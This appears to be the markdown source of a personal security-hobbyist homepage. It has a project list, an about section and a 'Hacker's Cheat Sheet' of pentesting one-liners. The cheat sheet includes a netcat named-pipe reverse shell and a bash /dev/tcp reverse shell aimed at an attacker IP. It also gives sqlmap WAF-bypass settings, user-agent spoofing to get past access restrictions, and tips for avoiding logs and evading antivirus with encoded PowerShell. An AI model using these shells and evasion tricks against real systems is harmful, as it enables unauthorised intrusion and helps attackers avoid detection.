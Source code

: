 ```yaml
---
layout: default
title: Home
---
```


# 🖥️ Welcome to WebPro's Hacker Space 🖥️

![Hacker Banner]([https://user-images.githubusercontent.com/hacker-image.png](https://repository-images.githubusercontent.com/854871320/ff257a6b-d569-48db-a79c-6df7594b71b6))

Welcome to the dark side of the internet, where we explore cybersecurity, vulnerabilities, and cutting-edge technology.

---

## 🚀 Latest Projects 🚀

Here are some of the cool projects I’ve been working on:

- 🛠️ [HiddenSecTools](https://github.com/webpro255/HiddenSecTools) – A repository of hidden security tools.
- 🔍 [EventViewer-LogHunting](https://github.com/webpro255/EventViewer-LogHunting) – Hunt for security-relevant logs with Windows Event Viewer.
- 🛡️ [WordPress Forensics](https://github.com/webpro255/wordpress-forensics-tool) – Forensics tools specifically for WordPress investigations.
- 📊 [ELK-SOC-Tips](https://github.com/webpro255/ELK-SOC-Tips) – Tips and techniques for setting up an ELK stack in a SOC environment.
- 📡 [Network Traffic Visualization](https://github.com/webpro255/network-traffic-visualization) – Visualize network traffic in a clear and concise way.
- 🔧 [IT Support Scripts](https://github.com/webpro255/it-support-scripts) – A collection of useful scripts for IT support.
- 🔐 [IAM Policy Simulator](https://github.com/webpro255/iam-policy-simulator) – A project to simulate IAM policies for cloud security.
- 🔍 [Network Scanning Tools](https://github.com/webpro255/network-scanning-tools) – A collection of tools for network scanning and reconnaissance.
- 📈 [Network Anomaly Detection](https://github.com/webpro255/network-anomaly-detection) – Detect network anomalies using these tools and techniques.

---

## 👨‍💻 About Me 👨‍💻

I am WebPro, passionate about cybersecurity, ethical hacking, and building tools to create a more secure future. I love experimenting with new technologies, finding vulnerabilities, and sharing my knowledge with the community.

---
## 🕵️ Cybersecurity Challenge 🕵️

Want to test your skills? Try to crack the password in our **[Password Cracker Game](./cyber-game.html)** and see how quickly you can break in!

## 🎮 Play another Game 🎮

Feeling like taking a break? Try your hand at the **[Guess the Number Game](./game.html)** and see if you can guess the correct number!

---
## 🧠 Hacker's Cheat Sheet 🧠

Only true hackers will appreciate these gems—cutting-edge tips and tricks that can elevate your penetration testing and ethical hacking skills. 

### 🔥 1. Command Line Kung Fu

- **List all open ports** (with process info) on Linux:
  ```bash
  sudo netstat -tuln -p
  ```
> Quickly see what's open on your system without needing fancy tools.

- Find all hidden files on a Linux machine:
  ```
  find / -name ".*" -type f
  ```
> Great for uncovering hidden configurations or malicious scripts.

- Fast directory scanning with FFUF:
  ```
  ffuf -w /path/to/wordlist.txt -u https://example.com/FUZZ -e .php,.html,.txt -o output.txt
  ```
> Quick and powerful fuzzing to discover hidden directories.

### 🚀 2. Hidden Gems in Wireshark

- Capture only HTTP GET requests:

```
http.request.method == "GET"
```
> Skip the noise and capture just the GET requests to hunt for interesting activity.

- Filter for suspicious DNS activity:
  ```
  dns.qry.name == "evil.com"
  ```
> Target specific DNS queries to detect if someone's reaching out to malicious domains.

### 🔒 3. Bypass Techniques

- **Bypass WAF using SQLMap with tamper scripts**:
    ```bash
    sqlmap -u "http://example.com/vuln.php?id=1" --tamper=space2comment --level=5 --risk=3
    ```
    > Get around pesky WAFs with a tamper script and crank up the aggression.

- **Custom User-Agent to fool detection systems**:
    ```bash
    curl -A "Googlebot/2.1 (+http://www.google.com/bot.html)" http://target.com
    ```
    > Impersonate a search engine crawler to bypass access restrictions.

### 🛡️ 4. Advanced Reverse Shells

- **Obfuscated Netcat reverse shell**:
    ```bash
    mkfifo /tmp/lolpipe; nc 0</tmp/lolpipe | /bin/sh >/tmp/lolpipe 2>&1; rm /tmp/lolpipe
    ```
    > Use named pipes to create stealthier reverse shells, harder to detect by basic monitoring.

- **Bash TCP reverse shell** (for when Netcat isn’t available):
    ```bash
    bash -i >& /dev/tcp/<attacker IP>/<port> 0>&1
    ```
    > Minimal footprint, effective on many Unix-based systems.

### 💻 5. Stealth Techniques

- **Avoid logging by executing commands in memory (Linux)**:
    ```bash
    exec /bin/bash 0</dev/null 2>/dev/null
    ```
    > Run commands in a way that avoids leaving traces in `/var/log` files.

- **Evade AV detection with PowerShell base64 encoding**:
    ```bash
    powershell.exe -EncodedCommand <Base64 Encoded Command>
    ```
    > Hide your PowerShell commands by encoding them in Base64, bypassing some AV detection.

### 🛠️ 6. Tools You Might Not Know (But Should)

- [**Obsidian**](https://obsidian.md/) – A tool for creating encrypted vaults of notes and penetration testing playbooks.
- [**Chaos Reader**](http://chaosreader.sourceforge.net/) – Parse, analyze, and extract files from packet capture (.pcap) files.
- [**LinEnum**](https://github.com/rebootuser/LinEnum) – A Linux enumeration script to quickly find privilege escalation vectors.

### 🎯 7. Fuzzing on Steroids

- **Fuzzing APIs with POST requests using FFUF**:
    ```bash
    ffuf -w wordlist.txt -X POST -d "parameter1=value&FUZZ=value" -u https://target.com/api/endpoint -o output.json
    ```
    > Quickly find API vulnerabilities by fuzzing POST request bodies.

- **Fuzzing JSON APIs with AFL (American Fuzzy Lop)**:
    ```bash
    afl-fuzz -i input/ -o output/ -- ./target_binary @@
    ```
    > Use AFL to find memory corruption issues in JSON parsers, or other binary targets.

💡 **Bonus Tip**: Always remember to document your findings in detail. Hacking without reporting is just half the work. 😉


## 🤝 Connect with Me 🤝

Follow me on [GitHub](https://github.com/webpro255) for the latest updates, tools, and resources!

